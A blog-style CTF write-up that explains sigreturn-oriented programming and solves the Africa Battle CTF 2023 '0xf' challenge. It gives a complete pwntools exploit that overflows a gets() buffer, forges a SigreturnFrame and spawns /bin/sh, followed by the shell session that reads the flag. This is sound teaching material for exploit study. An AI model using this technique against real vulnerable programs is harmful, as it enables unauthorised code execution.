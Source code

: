 ```yaml
---
title: Hackthebox code machine 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!

![recon](/assets/hackthebox/code_pwn.png)
in this article, we are going to learn how to use srop technical to make ropchain


So what is `SROP`

To understand this exploit technical, you must understand how  `x86 sigreturn syscall` work.
The cause is  srop exploit `sigreturn` syscall functionnality to make ROP (return oriented programming)

# sigreturn syscall 
```
Sigreturn (syscall 0xf) is a syscall used to restore the entire register context from memory pointed at by ESP or RSP for x86_64 arch.
That said when the cpu exec syscall(rax=0xf), the program will read frame pointed by stack pointer
and restor  it value into registers. This frame has a  specific format for each CPU arch  so the CPU know that at offset xx, it is the rax register value and at offset yy it is the value of rbx
```

How this can help us to exploit a program.

If you can overwrite the stack frame after sigreturn syscall, by exploiting buffer overflow vuln for example, you can control the value of cpu registers and that is where you can do rop chain.
For instance, let said  on x86_64 by overwriting the stack frame after sigreturn syscall  call you are able to overwrite: 
- rax to 0xb3
- rdi to the address of "bin/sh" string
- rsi to 0
- rip to sycall gadget

That will let the program make execve("/bin/sh") and you get the shell.


# Pratical part
In this part, i will use Africa Battle CTF 2023 challenge to show a pratical case of this exploitation technical 

Let start !!!!!!!!!!!!!!!!!!!!!!
The challenge was named: `0xf`

The binary file `syscall` is an ELF x86_64 dynamically linkded and not stripped.

When we check mitigation we can see that the binary don't has `stack cannary` protection , `No PIE` and the stack is not executable
```bash
file syscall 
syscall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aed719058a5efedf4d245c5c3c610937cd8d4ad7, for GNU/Linux 3.2.0, not stripped
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]
└──╼ $pwn checksec syscall 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

```


![recon](/assets/pwn/battle_0xf_recon.png)

Through gdb-gef session, we can see that the binary are  two defined function `main` and `hausa`.

i used ghidra to decompile these function .
```

undefined8 main(void)

{
  char local_38 [48];
  
  puts("Africa battle CTF 2023");
  puts("Tell us about your ethnicity:");
  gets(local_38);
  return 0;
}

undefined8 hausa(void)

{
  return 0xf;
}


```

main function call gets(local_38) so the program is vulnerable to Buffer overflow.
But what to do with this vulnerability!?
I search for gadget to make ropchain, i noticed that we don't have a lot of gadget.
By those gadgets are very interesting
```
mov rax, 0xf; ret
syscall; ret
```
if we overwrite saved rip to `mov rax, 0xf; ret` and saved rip + 8 to `syscall; ret`, the program will make signreturn syscall and.
So the the thing that we must do here is to create a frame that will help us to make execve(/bin/sh) and sand payload like this `mov rax,0xf;ret` + `syscall; ret` + our created frame data.

Pwn tool python  module can help us to create this frame . The only thing that we need is to find `/bin/sh` address and use it with our previous gadget. 
Luckly we have "/bin/sh" string on the binary.

Bellow is the final exploit

```python
from pwn import *



# Set up pwntools for the correct architecture
elf = exe = context.binary = ELF(args.EXE or 'syscall')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


# Gadget to make srop 
bin_sh = int(next(elf.search(b'/bin/sh'))) # /bin/sh string
offset = 56  # offset to overwrite return address
mov_rax_0xf = next(elf.search(asm('mov eax ,0xf')))   # signreturn gadget
syscall_ret = next(elf.search(asm('syscall; ret')))  # syscall gadget

########################  Payload ########################
frame = SigreturnFrame(kernel='amd64') 
frame.rax = constants.SYS_execve
frame.rdi =  bin_sh
frame.rdx = 0                 # envp = NULL
frame.rip = syscall_ret  

payload = cyclic(offset)
payload += p64(mov_rax_0xf) 
payload += p64(syscall_ret)
payload += bytes(frame)

io = start()
io.sendline(payload)
io.interactive()

```

```bash
┌─[top0n3@parrot]─[/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source]                                                                                        [0/3]
└──╼ $python3 exploit.py 
[*] '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[+] Starting local process '/media/top0n3/7B29B9A756CC225A/ctf/battleCTF-2023-main/Prequal/Pwn/0xf/source/syscall': pid 191168
[*] Switching to interactive mode
Africa battle CTF 2023
Tell us about your ethnicity:
$ ls
__pycache__  exploit.py  flag.txt  syscall
$ cat flag.txt
battleCTF{Ethnicity_SigROP_Syscall_Army_f0d9e29e9c1d03c996083bb9c3325d33}
$  
```
and we get the flag by making `SROP`
